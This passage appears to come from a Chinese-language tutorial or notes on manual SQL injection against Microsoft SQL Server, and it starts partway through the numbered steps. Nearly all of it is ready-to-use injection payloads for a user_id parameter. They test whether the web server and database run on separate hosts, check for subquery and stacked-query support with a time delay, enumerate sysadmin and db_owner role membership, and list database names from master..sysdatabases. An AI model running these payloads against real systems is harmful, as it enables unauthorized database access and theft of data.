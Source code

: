 `user_id=1 and (select host_name())>1;`

`user_id=1 and (select @@servername)>1;`

>不相同则说明站库分离

`user_id=1 and ((select host_name())=(select @@servername))`

4. 判断是否支持子查询

`user_id=1 and (select count(*) from sysobjects)>1`

5. 判断是否支持堆叠

`user_id=1;waitfor delay '0:0:5';--`

![](https://img.mi3aka.eu.org/2022/08/7c26e7ffe3f198e3f281fb256308ec89.png)

6. 判断权限

- 服务器

```
and 1=(select is_srvrolemember('sysadmin'))
and 1=(select is_srvrolemember('serveradmin'))
and 1=(select is_srvrolemember('setupadmin'))
and 1=(select is_srvrolemember('securityadmin'))
and 1=(select is_srvrolemember('diskadmin'))
and 1=(select is_srvrolemember('bulkadmin'))
```

![](https://img.mi3aka.eu.org/2022/08/d2c1ce7bf61f5b48750cf39bcf13fa89.jpg)

- 数据库

```
and 1=(select is_member('db_owner'))
and 1=(select is_member('db_securityadmin'))
and 1=(select is_member('db_accessadmin'))
and 1=(select is_member('db_backupoperator'))
and 1=(select is_member('db_ddladmin'))
and 1=(select is_member('db_datawriter'))
and 1=(select is_member('db_datareader'))
and 1=(select is_member('db_denydatawriter'))
and 1=(select is_member('db_denydatareader'))
```

![](https://img.mi3aka.eu.org/2022/08/f4a98578e0eaff0a5bed2bb399b22008.png)

7. 获取数据库名

`user_id=1 and (select db_name())>1;`

![](https://img.mi3aka.eu.org/2022/08/f6760fb5ee651314924ecfb50584e54e.png)

>利用dbid进行遍历,获取所有数据库名

`select top 1 name from master..sysdatabases where dbid=1`

